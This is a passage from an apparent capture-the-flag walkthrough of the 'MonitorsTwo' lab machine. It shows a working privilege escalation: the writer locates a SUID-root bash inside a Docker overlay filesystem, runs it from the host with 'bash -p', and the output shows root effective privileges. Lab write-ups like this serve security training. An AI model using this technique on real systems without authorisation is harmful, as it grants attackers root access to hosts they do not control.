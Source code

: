```shell
df -h
```

result:

```text
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.2M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  65% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

We need to find the overlay of our container :

```shell
$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
```

We have the bash with the SUID. we can exploit it with :

```shell
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p -i
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# 
```

We have a privileged shell on this host.
